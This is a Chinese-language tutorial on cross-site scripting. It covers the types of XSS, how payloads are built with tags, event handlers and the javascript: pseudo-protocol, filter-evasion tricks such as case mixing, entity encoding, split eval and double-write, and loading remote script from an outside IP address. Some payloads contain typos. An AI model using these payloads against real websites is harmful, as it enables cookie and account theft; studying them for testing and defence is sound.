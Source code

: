 #### xss  漏洞

​	微博、留言板、聊天室等收集用户输入的地方，都有可能被注入xss 代码，都存在遭受xss的风险。

#### xss的危害

* 盗取各种用户账号。
* 窃取用户Cookie资料，冒充用户身份进入网站。
* 劫持用户会话，执行任意操作。
* 刷流量，执行弹窗广告。
* 传播蠕虫病毒，等等

#### xss 漏洞的验证

​	我们可以用一段简单的代码，验证和检测漏洞的存在。

**常用命令：** 

~~~js
<script>alert(/xss/)</script>	# 常用	弹窗操作
<script>confirm('xss')</script>
<script>prompt('xss')</script>
~~~

#### XSS 的分类

​	xss 漏洞大概可以分为三大类：反射型xss、存储型xss、DOM型xss

##### 反射型XSS

​	反射型XSS 是非持久性、参数型的跨站脚本。在web代码中应用的参数（变量）中。

在搜索框中，提交`<script>alert(/xss/)</script>`，点击搜索，即可触发反射型xss。

##### **存储型XSS**

​	存储型xss 是持久型跨站脚本，持久性体现在xss，代码不是在参数（变量）中，而是写进数据库或文件

##### **DOM XSS** 

​	DOM XSS 比较特殊。通过修改网页的DOM数，浏览器重新渲染页面。源代码没改变。 

#### XSS 的构造

**利用`<>`构造 HTML 标签和`<script>` 标签。**

&ensp; 在测试页面提交参数`<h1 style=color:red> ` 一类代码。

**伪协议** 

&ensp; 使用 `javascript` 伪协议的方法构造 XSS

例1、：`<a href="javascript:alert(/xss/)">touch sta</a>` 然后点击超链接，即可触发 XSS

例2、`<img src="javascript:alert('xss')">` 使用 img 标签的伪协议（新版浏览器不支持）

**产生自己的事件** 

&ensp; **事件驱动：** 是一种比较经典的编程思想。（比如鼠标移动，键盘输入等），JS 可以对这些事件进行响应。所以我们可以通过事件触发JS函数，触发XSS

例1：`<img src='./sat.jpg' onmouseover="alert(/xss/)">` 这个标签会引入一张图片，当鼠标悬停在图片上的时候，会触发XSS代码。

例2：单行文本框的键盘点击事件，`<input type="text" onkeydown="alert(/XSS/)">`,当点击键盘任意按键，就会触发XSS代码。

#### XSS 的变形

我们可以构造的 XSS 代码进行各种变形，来绕过 XSS 过滤器的检测。



* **大小写转换**

可以将payload进行大小写转化。

**例如：**

~~~html
<Img sRc='#' Onerror="alert(/XSS/)">
<a hREf="javaScript:alert(/XSS/)"> hello </a>
~~~



* **引号的使用**

HTML 语言中对引号的使用不敏感，可以通过引号绕过过滤器。

**例如：**

~~~html
<img src="#" onmouseover="alert(/XSS/)">
<img src='#' onmouseover='alert(/XSS/)'>
<img src=# onmouseover=alert(/XSS/)>
~~~



* **用 / 代替空格 **

可以使用左斜线代替空格。

**例如：**

~~~html
<img/scr='#'/onmouseover='alert(/XSS/)'>
~~~



* **回车**

我们可以在一些位置添加 Tab （水平制表符）和回车符，绕过关键字检测。

~~~html
<Img/sRc='#'/onmouseover	='alert(/XSS/)'>
<img/scr='#'/onmouseover='alert(/XSS/)'>
<img/scr="#"/onclick='alert(/XSS)'>
~~~



* **对标签属性值进行转码。** 

可以对标签属性值进行转码，绕过过滤。

| 字母 | ASCII码 | 十进制编码 | 十六进制编码 |
| ---- | ------- | ---------- | ------------ |
| a    | 97      | &#97       | &#x61        |
| e    | 101     | &#101      | &#x65        |

~~~html
<A href="j&#97;v&#x61;script:alert(/XSS/)"> hello PHP </a>
~~~



* 可以将以下字符插入到头部位置。

| Tab  | 换行 | 回车 |
| ---- | ---- | ---- |
| &#9  | &#10 | &#13 |



* 可以将一下字符插入到头部位置

| SOH  | STX  |
| ---- | ---- |
| &#01 | &#02 |

~~~html
<A hREF="&#01;j&#97;v&#97;s&#x65;c&#10;r&#13;ipt:alert(/XSS/)"> hello PHP </a>
~~~



* 拆分跨站

~~~html
<script>z='alert'</script>		# 定义变量
<script>d=z+'(/XSS/)'</script>		# 将变量进行拼接
<script>eval(d)</script>
~~~



* 双写绕过

~~~html
<scr<script>ipt></script>
~~~



#### CSS 变形



#### Shellcode 的调用

&ensp; Shellcode 就是在利用漏洞所执行的代码。



###### 远程调用JS

&ensp; 可以将JS代码单独放在一个JS文件中，然后通过http 协议远程加载该脚本。

~~~html
<script scr="http://192.168.123.123/XSS/text/demo.js"></script>
~~~

代码内容：`alert('XSS');`



**windows.location.hash**

&ensp; 我们可以使用JS中windows.location.hash 方法获取浏览器URL地址栏的XSS代码。

&ensp; windows.location.hash 会获取URL中 # 后面的内容，例如`http://127.0.0.1/123.php#hello` windows.location.hash的值就是 hello

构造代码绕过过滤`?submit=submit&xsscode=<script>eval(location.hash.substr(1))</script>#alert(/XSS/)` 

###### XSS Downloader

&ensp; XSS 下载器就是 XSS 代码写到网页中，然后通过AJAX技术，取得页面的XSS代码。























